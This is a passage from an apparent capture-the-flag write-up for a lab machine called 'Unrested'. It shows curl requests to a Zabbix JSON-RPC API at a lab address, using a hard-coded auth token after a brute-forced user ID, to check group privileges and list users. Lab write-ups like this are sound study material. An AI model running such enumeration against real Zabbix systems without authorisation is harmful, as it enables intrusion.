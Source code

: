 <br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225010323.png" alt="1" style="width:700px; height:auto;">
<br/>

This means a successful `output`. To get the `USERID`, we `bruteforced` to get the ID to be equal to `3`.   

We can craft a `curl` request to check our privileges.   

```bash
curl -X POST http://10.10.11.50/zabbix/api_jsonrpc.php \
-H "Content-Type: application/json" \
-d '{
    "jsonrpc": "2.0",
    "method": "usergroup.get",
    "params": {
        "output": ["usrgrpid", "name"]
    },
    "id": 1,
    "auth": "4126ce978b0bd473dc4d80142219c118"
}'
```

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225010810.png" alt="1" style="width:700px; height:auto;">
<br/>

Check the current `users` with this query.   

```bash
 curl -X POST http://10.10.11.50/zabbix/api_jsonrpc.php \
-H "Content-Type: application/json" \
-d '{
    "jsonrpc": "2.0",
    "method": "user.get",
    "params": {
        "output": "extend"
    },
    "id": 1,
    "auth": "4126ce978b0bd473dc4d80142219c118"
}'
```
